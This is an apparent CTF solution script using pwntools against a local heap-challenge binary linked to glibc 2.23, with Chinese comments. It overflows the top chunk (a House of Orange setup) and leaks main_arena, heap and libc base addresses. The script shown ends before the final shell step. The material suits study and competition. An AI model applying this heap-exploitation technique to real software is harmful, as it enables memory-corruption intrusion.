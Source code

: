 ```python
from pwn import *

debug = True
if debug:
    io = process('./pwn')#, aslr=False)
else:
    io = remote()

context.clear(arch='amd64')
elf = ELF('pwn')
libc = ELF('libs/2.23-0ubuntu11.2_amd64/libc.so.6')

def create(index, size, content):
    io.sendlineafter('>> ', '1')
    io.sendlineafter(': ', '%d' % index)
    io.sendlineafter(': ', '%d' % size)
    io.sendafter(': ', content)

def show(index):
    io.sendlineafter('>> ', '2')
    io.sendlineafter(': ', '%d' % index)
    data = io.recvuntil('Done')
    return data

def edit(index, content):
    io.sendlineafter('>> ', '3')
    io.sendlineafter(': ', '%d' % index)
    io.sendafter(': ', content)

if __name__ == '__main__':
    #gdb.attach(io)
    # 溢出覆盖top chunk头部
    # 0xef1是为了满足sysmalloc的内存页对齐检测
    payload = b'A' * 0x100 + p64(0) + p64(0xef1)
    create(0, 0x100, payload)
    #create(0, 0x100, 'a')
    #pause()
    #edit(0, payload)
    #pause()

    # 此时由于top chunk的大小为0xef0，而申请的内存大小为4096
    # 因此首先会调用_init_free将top chunk加入到unsortedbin
    create(1, 4096, 'A')
    #pause()
    
    # 从unsorted chunk中分割一块内存用于泄露信息
    # 覆盖fd字段
    create(2, 0x200, 'AAAAAAAA')
    # 通过bk字段泄露main_arena地址
    main_arena_addr = u64(show(2).split(b'AAAAAAAA')[1][:-4].ljust(8, b'\x00'))
    main_arena_addr -= 1640
    log.success('main_arena: 0x%x' % main_arena_addr)
    # 覆盖fd和bk字段，通过fd_nextsize泄露堆地址
    # 可以通过堆地址手动构造虚函数表实现getshell
    # 但是在glibc2.24发掘了一种新的攻击方式，不需要堆地址就可以实现攻击
    edit(2, 16*'A')
    heap_addr = u64(show(2).split(b'AAAAAAAAAAAAAAAA')[1][:-4].ljust(8, b'\x00'))
    log.success('heap: 0x%x' % heap_addr)
    offset = main_arena_addr - 0x3c4b20
    log.success('libc offset: 0x%x' % offset)
    libc.address = offset

    #pause()
```